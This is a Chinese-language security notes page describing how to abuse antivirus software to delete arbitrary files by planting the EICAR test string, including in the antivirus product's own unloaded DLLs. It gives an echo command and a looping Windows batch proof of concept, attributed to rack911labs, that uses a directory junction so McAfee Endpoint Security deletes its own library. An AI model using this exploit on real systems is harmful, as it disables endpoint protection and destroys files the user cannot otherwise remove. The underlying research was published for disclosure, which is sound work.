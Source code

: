 # 利用杀毒软件删除任意文件

## 简介

通常，下载一个未知文件保存到硬盘后，杀毒软件通常会在短时间进行实时扫描，如果确定为可疑或威胁，该文件会被自动隔离，并询问用户是否处理。

考虑到杀毒软件几乎都已高权限运行，这样就为我们对杀毒软件利用产生了条件，我们可以往一个合法文件里写入恶意代码特征，然后利用杀毒软件帮我去删除这个文件，当然前提是这个文件当前没有使用。

## 测试字符串

```text
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
```

> **来自维基百科:**
>
> **EICAR标准反病毒测试文件**，又称**EICAR测试文件**, 是由[欧洲反计算机病毒协会](https://zh.wikipedia.org/wiki/%E6%AC%A7%E6%B4%B2%E5%8F%8D%E8%AE%A1%E7%AE%97%E6%9C%BA%E7%97%85%E6%AF%92%E5%8D%8F%E4%BC%9A)（EICAR）与[计算机病毒研究组织](https://zh.wikipedia.org/w/index.php?title=%E8%AE%A1%E7%AE%97%E6%9C%BA%E7%97%85%E6%AF%92%E7%A0%94%E7%A9%B6%E7%BB%84%E7%BB%87&action=edit&redlink=1)（CARO）研制的文件, 用以测试[杀毒软件](https://zh.wikipedia.org/wiki/%E6%9D%80%E6%AF%92%E8%BD%AF%E4%BB%B6)的响应程度。不同于使用可能造成实际破环的实体恶意软件，该文件允许人们在没有计算机病毒的情况下测试杀毒软件。
>
> 杀毒软件的开发者将EICAR字符串视为测试病毒，与其他鉴别标识相似。合格的病毒扫描器在发现文件时，会精确地采用相同方式处置，如同发现一个严重的病毒时那样。注意并非所有病毒扫描器是合格的，有些病毒扫描器会在精确识别后保留文件。
>
> EICAR测试字符的用法要比直接测试灵活：包含EICAR测试字符的文件会被[压缩](https://zh.wikipedia.org/wiki/%E6%95%B0%E6%8D%AE%E5%8E%8B%E7%BC%A9)或者[存档](https://zh.wikipedia.org/wiki/%E5%AD%98%E6%A1%A3)，并且杀毒软件会尝试删除压缩文件中的测试字符。

简单的说为了测试杀毒软件的性能,所有厂商都会把这个测试字符串当作病毒处理。

![](../.gitbook/assets/image%20%2876%29.png)

预想一个场景，在杀毒软件运行时考虑到内存占用可能并不会加载所有自身dll，那我们往这个未加载的dll里写入这个测试字符串，这样杀毒软件就会自己干掉自己，等到需要用到这个功能dll的时候，这个功能就会失效。

## 利用流程

1. 往文件写入测试字符串

## 利用代码

```text
echo X5O!P%@AP[4\PZX54(P^^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*  > <FILENAME>
```

## 扩展利用

windows提供了一个目录链接功能，只能将两个目录链接在一起。它不能链接文件，并且目录必须在文件系统本地。目录连接可以由任何用户执行，并且不需要管理员特权，因此非常适合在Windows操作系统下利用防病毒软件进行利用。

此poc来自rack911labs:

```text
:loop
rd /s /q C:\Users\Username\Desktop\exploit
mkdir C:\Users\Username\Desktop\exploit
echo X5O!P%@AP[4\PZX54(P^^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H* > C:\Users\Username\Desktop\exploit\EpSecApiLib.dll
rd /s /q C:\Users\Username\Desktop\exploit
mklink /J C:\Users\Username\Desktop\exploit “C:\Program Files (x86)\McAfee\Endpoint Security\Endpoint Security Platform”
goto loop
```

## LINKS

{% embed url="https://zh.wikipedia.org/wiki/EICAR%E6%A0%87%E5%87%86%E5%8F%8D%E7%97%85%E6%AF%92%E6%B5%8B%E8%AF%95%E6%96%87%E4%BB%B6" %}

{% embed url="https://www.rack911labs.com/research/exploiting-almost-every-antivirus-software/" %}

